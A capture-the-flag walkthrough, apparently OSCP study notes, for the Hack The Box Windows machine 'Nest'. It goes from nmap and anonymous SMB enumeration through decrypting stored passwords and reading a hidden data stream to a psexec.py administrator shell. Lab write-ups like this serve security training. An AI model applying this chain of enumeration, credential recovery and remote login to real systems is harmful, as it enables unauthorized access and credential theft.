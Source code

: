 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## 🧭 Reconnaissance

**Nmap Full TCP Port Scan**
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.178
```

**Nmap Service/Script Scan**
```bash
nmap -p 445,4386 -sC -sV -oA scripts/nmap-tcpscripts 10.10.10.178
```

**Key Ports Identified**
- TCP 445: SMB
- TCP 4386: HQK Reporting Service (custom)

---

## 📁 Initial [SMB](SMB.md) Enumeration

**Anonymous SMB Access**
```bash
smbmap -H 10.10.10.178 -u null
smbclient -N //10.10.10.178/Users
smbclient -N //10.10.10.178/Data
```

**Files of Interest**
- `Welcome Email.txt` → Provided creds: `TempUser : welcome2019`

---

## 🔑 Gaining Access as TempUser

**Enumerate Shares With Credentials**
```bash
smbmap -H 10.10.10.178 -u TempUser -p welcome2019
smbclient -U TempUser //10.10.10.178/Data
```

**Pull Files**
```bash
recurse ON
prompt OFF
mget *
```

**Find Encrypted Password**
- In `RU_config.xml` for user `c.smith`
- Password: `fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=`

**Find Path Hint**
- In `Notepad++` config file → referenced: `\\HTB-NEST\Secure$\IT\Carl`

---

## 🔓 Decrypting C.Smith's Password

**Locate Visual Basic Project**
```bash
smbclient -U TempUser //10.10.10.178/Secure$
cd "IT\Carl"
recurse ON
prompt OFF
mget *
```

**Decrypt Password via DotNetFiddle**
```vbnet
DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")
```
- Result: `xRxRxPANCAK3SxRxRx`

---

## 🧑‍💻 Shell as C.Smith

**Verify SMB Access**
```bash
smbmap -H 10.10.10.178 -u C.Smith -p xRxRxPANCAK3SxRxRx
```

**Retrieve user.txt**
```bash
smbclient -U C.Smith //10.10.10.178/Users
cd C.Smith
get user.txt
```

---

## 🧠 Debug Access to HQK Reporting Service

**Manual Connect With Telnet**
```bash
telnet 10.10.10.178 4386
```

**Find Hidden Stream in SMB**
```bash
smbclient -U C.Smith //10.10.10.178/Users
cd "HQK Reporting"
allinfo "Debug Mode Password.txt"
get "Debug Mode Password.txt:Password"
```
- Result: `WBQ201953D8w`

**Enable Debug Mode in HQK**
```bash
debug WBQ201953D8w
```

**Show LDAP Config with Encrypted Admin Password**
```bash
setdir LDAP
showquery 2
```

---

## 🔓 Decrypting Admin Password

**Grab and Open HqkLdap.exe in dnSpy**
- Find decryption logic
- Run with breakpoint or patched console output

**Resulting Password**
- `XtH4nkS4Pl4y1nGX`

---

## 👑 Shell as SYSTEM

**PSExec Shell**
```bash
psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
```

**Grab root.txt**
```bash
type C:\Users\Administrator\Desktop\root.txt
```